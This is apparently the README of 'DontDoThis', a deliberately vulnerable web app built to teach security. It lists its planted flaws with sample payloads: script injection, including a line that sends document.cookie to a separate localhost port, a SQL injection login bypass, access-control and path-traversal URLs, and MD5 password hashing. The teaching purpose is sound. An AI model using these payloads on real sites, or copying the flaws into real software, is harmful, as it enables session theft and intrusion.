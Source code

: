 # DontDoThis

Simple web application with a bunch of serious security flaws.

It is intended as a teaching tool for security.

**WARNING** Only run in a safe environment as it will expose the entire filesystem over HTTP.

## Getting started

Run `npm ci` to install dependencies.

Run `npm start` for a dev server. Navigate to http://localhost:4200/.

Reset the database with `npm run sync`.


## Vulnerabilities

- About us form - script injection
    - <script>alert("Exploited")</script>
    - <script>fetch(`http://localhost:8000/${document.cookie}`)</script>
- Login form - SQL injection
    - " or id = 1 and "" = "
- Info page - Broken access control
    - GET /api/company/2
- User endpoint - Broken access control / forced browsing
    - http://localhost:4200/api/user/2 -> exposing password hash
- Cryptographic Failures -> MD5 hashing
- Path traversal
    - http://localhost:4200/api/message/company/../package.json
